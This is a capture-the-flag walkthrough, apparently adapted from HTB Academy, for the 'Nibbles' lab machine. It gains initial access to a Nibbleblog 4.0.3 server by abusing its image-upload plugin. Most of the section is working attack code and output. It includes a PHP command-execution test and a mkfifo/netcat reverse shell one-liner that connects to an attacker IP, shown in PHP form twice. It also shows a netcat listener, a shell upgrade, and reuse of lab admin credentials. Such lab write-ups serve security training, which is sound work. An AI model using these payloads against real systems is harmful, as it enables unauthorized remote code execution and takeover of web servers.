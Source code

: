 # Nibbles - Initial Foothold

---

Now that we are logged in to the admin portal, we need to attempt to turn this access into code execution and ultimately gain reverse shell access to the webserver. We know a `Metasploit` module will likely work for this, but let us enumerate the admin portal for other avenues of attack. Looking around a bit, we see the following pages:

|**Page**|**Contents**|
|---|---|
|`Publish`|making a new post, video post, quote post, or new page. It could be interesting.|
|`Comments`|shows no published comments|
|`Manage`|Allows us to manage posts, pages, and categories. We can edit and delete categories, not overly interesting.|
|`Settings`|Scrolling to the bottom confirms that the vulnerable version 4.0.3 is in use. Several settings are available, but none seem valuable to us.|
|`Themes`|This Allows us to install a new theme from a pre-selected list.|
|`Plugins`|Allows us to configure, install, or uninstall plugins. The `My image` plugin allows us to upload an image file. Could this be abused to upload `PHP` code potentially?|

Attempting to make a new page and embed code or upload files does not seem like the path. Let us check out the plugins page.

![http://10.129.42.190/nibbleblog/admin.php?controller=plugins&action=list](https://academy.hackthebox.com/storage/modules/77/plugins.png)

Let us attempt to use this plugin to upload a snippet of `PHP` code instead of an image. The following snippet can be used to test for code execution.

Code: php

```php
<?php system('id'); ?>
```

Save this code to a file and then click on the `Browse` button and upload it.

![http://10.129.42.190/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image](https://academy.hackthebox.com/storage/modules/77/upload.png)

We get a bunch of errors, but it seems like the file may have uploaded.

  Nibbles - Initial Foothold

```shell-session
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
```

Now we have to find out where the file uploaded if it was successful. Going back to the directory brute-forcing results, we remember the `/content` directory. Under this, there is a `plugins` directory and another subdirectory for `my_image`. The full path is at `http://<host>/nibbleblog/content/private/plugins/my_image/`. In this directory, we see two files, `db.xml` and `image.php`, with a recent last modified date, meaning that our upload was successful! Let us check and see if we have command execution.

  Nibbles - Initial Foothold

```shell-session
frodonomojo@htb[/htb]$ curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

We do! It looks like we have gained remote code execution on the web server, and the Apache server is running in the `nibbler` user context. Let us modify our PHP file to obtain a reverse shell and start poking around the server.

Let us edit our local PHP file and upload it again. This command should get us a reverse shell. As mentioned earlier in the Module, there are many reverse shell cheat sheets out there. Some great ones are [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) and [HighOn,Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/).

Let us use the following `Bash` reverse shell one-liner and add it to our `PHP` script.

  Nibbles - Initial Foothold

```shell-session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```

We will add our `tun0` VPN IP address in the `<ATTACKING IP>` placeholder and a port of our choice for `<LISTENING PORT>` to catch the reverse shell on our `netcat` listener. See the edited `PHP` script below.

Code: php

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

We upload the file again and start a `netcat` listener in our terminal:

  Nibbles - Initial Foothold

```shell-session
0xdf@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
```

`cURL` the image page again or browse to it in `Firefox` at http://nibbleblog/content/private/plugins/my_image/image.php to execute the reverse shell.

  Nibbles - Initial Foothold

```shell-session
frodonomojo@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

Furthermore, we have a reverse shell. Before we move forward with additional enumeration, let us upgrade our shell to a "nicer" shell since the shell that we caught is not a fully interactive TTY and specific commands such as `su` will not work, we cannot use text editors, tab-completion does not work, etc. This [post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) explains the issue further as well as a variety of ways to upgrade to a fully interactive TTY. For our purposes, we will use a `Python` one-liner to spawn a pseudo-terminal so commands such as `su` and `sudo` work as discussed previously in this Module.

Code: bash

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Try the various techniques for upgrading to a full TTY and pick one that works best for you. Our first attempt fails as `Python2` seems to be missing from the system!

  Nibbles - Initial Foothold

```shell-session
$ python -c 'import pty; pty.spawn("/bin/bash")'

/bin/sh: 3: python: not found

$ which python3

/usr/bin/python3
```

We have `Python3` though, which works to get us to a friendlier shell by typing `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Browsing to `/home/nibbler`, we find the `user.txt` flag as well as a zip file `personal.zip`.

  Nibbles - Initial Foothold

```shell-session
nibbler@Nibbles:/home/nibbler$ ls

ls
personal.zip  user.txt
```

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.84.139 (ACADEMY-STARTING-OUT)   

+ Gain a foothold on the target and submit the user.txt flag
+ Answer: 

**Steps Taken:**

Open Browser and navigate to http://10.129.84.139/nibbleblog/admin.php
Credentials were found in previous "Nibbles - Web Footprinting" section which are admin and nibbles
Login and navigate to Plugins Tab on left side. Open up pluma and copy the following and paste it and save it on Desktop as phpreverse.php:
**** Make sure to change the nc ip to the attack machines ip ****


```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.181 9443 >/tmp/f"); ?>
```


Click Browse and choose the phpreverse.php file on Desktop while simultaneously setting up a netcat listener within a new terminal tab.

$ nc -lvnp  9443


**Credit:** This information along with the all subdirectories that fall within the "HTB CERTIFIED PENETRATION TESTING SPECIALIST (CPTS)" section were adapted from the excellent guide on [HTB Academy](https://academy.hackthebox.com/preview/certifications/htb-certified-penetration-testing-specialist). Be sure to check out the original post for more details.

